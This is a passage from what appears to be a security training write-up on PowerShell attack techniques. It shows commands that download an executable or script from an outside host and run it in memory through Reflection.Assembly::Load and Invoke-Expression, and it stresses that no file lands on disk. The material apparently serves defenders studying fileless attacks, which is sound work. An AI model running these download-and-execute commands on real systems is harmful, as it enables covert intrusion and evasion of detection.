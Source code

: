 The program, now named `56835.exe`, runs from the `$env:public` directory:

![](images/PowerShell%20Greatest%20Hits%20Vol%201/image021.png)<br><br>

### Download to Memory

The following commands will download the `GoTeam.exe` program into memory and run it using `[Reflection.Assembly]::Load()`:

```powershell
$uri = 'https://s3.amazonaws.com/exercise-pcap-download-link/GoTeam.exe'
$exe = Invoke-WebRequest -Uri $uri
$Base64 = [System.Convert]::ToBase64String($exe.Content)
[Reflection.Assembly]::Load([Convert]::FromBase64String($Base64)).EntryPoint.Invoke($Null, $Null)
```

![](images/PowerShell%20Greatest%20Hits%20Vol%201/image020.png)<br><br>

After this last command, the `GoTeam.exe` program will be running inside the memory space of the PowerShell process. There is no copy of the file on disk, no `GoTeam.exe` processes running, and no `GoTeam.exe` modules shown as loaded by the PowerShell process.

Another option is to download and run the `GoTeam.ps1` script which contains an encoded copy of the `GoTeam.exe` program. This command runs it in memory using `Invoke-Expression`:

```powershell
$wc = New-Object Net.WebClient
$wc.DownloadString("https://s3.amazonaws.com/exercise-pcap-download-link/GoTeam.ps1") | IEX
```

Again, the `GoTeam.exe` program runs in memory:

![](images/PowerShell%20Greatest%20Hits%20Vol%201/image019.png)<br><br>
